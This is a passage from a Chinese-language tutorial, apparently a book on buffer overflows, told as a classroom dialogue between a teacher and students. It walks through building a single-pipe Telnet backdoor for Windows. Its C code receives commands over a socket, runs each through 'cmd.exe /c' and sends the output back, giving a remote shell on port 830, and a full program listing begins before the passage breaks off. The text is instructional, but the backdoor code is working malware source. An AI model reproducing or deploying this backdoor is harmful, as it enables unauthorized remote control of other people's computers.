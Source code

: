 “我们执行 pipe2.cpp，本机就会打开 830 端口监听。如果其他机器 Telnet IP 830 ，就会给它一个远程的 Shell，可以在那个 Shell 下输入命令执行，如图 3－20。”

![](img/Q 版缓冲区溢出教程 86296.jpg)

“哦，好可爱的 Shell 啊！真想咬一口。”玉波说道。

“你怎么老想到吃啊……”

“哈哈……”大家都笑了，整个课堂气氛更加融洽。

“那单管道的后门又是怎样实现的呢？”古风又心急的问。

“好，我们也一起来看看吧！”

# 3.3.2 单管道后门的实现

### 3.3.2 单管道后门的实现

“有了双管道后门的实现基础，单管道后门的实现就简单了。我们只看不同的地方。”老师在黑板上写出来。“和双管道不同的地方就是：只建一个管道，然后将 CMD 子进程的输出句柄用管道的写句柄替换，如下：”

```
CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
si.hStdOutput = si.hStdError = hWritePipe1; 
```

“传输用户的命令和结果，先检查管道里有没有输出数据，如有，就将数据读出并发送给客户机；如果没有，就接收远程客户机的命令数据，把命令数据和 cmd /c 合起来，作为参数开启一个新的 CMD 子进程。代码如下：”

```
ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         if(lBytesRead)
         {
              //管道 1 有输出，读出结果发给远程客户机
              ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
              if(!ret) break;
              ret=send(clientFD,Buff,lBytesRead,0);
              if(ret<=0) break;
         }
         else
         {
              //否则，接收远程客户机的命令
              lBytesRead=recv(clientFD,Buff,1024,0);
              if(lBytesRead<=0) break;
              strcpy(cmdLine, "cmd.exe /c");            //cd\ & dir
              strncat(cmdLine, Buff, lBytesRead);
              //以命令为参数，启动 CMD 执行
                          CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         } 
```

“注意，这里的 cmd /c 意思是命令执行完毕后，退出 DOS 窗口程序。”老师提醒道，“测试时我们将会深刻理解它的意思。”

“我们把程序连起来，接收远程命令数据→开进程执行→读出并传回，形成不断的循环，最后再加入错误处理代码，就是一个单管道的 Telnet 后门了。”

```
#include <winsock2.h>
#include <stdio.h>
#include <string.h>
#pragma comment(lib,"Ws2_32")
int main()
{
     WSADATA ws;
     SOCKET listenFD;
     char Buff[1024];
     int ret;
     //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
```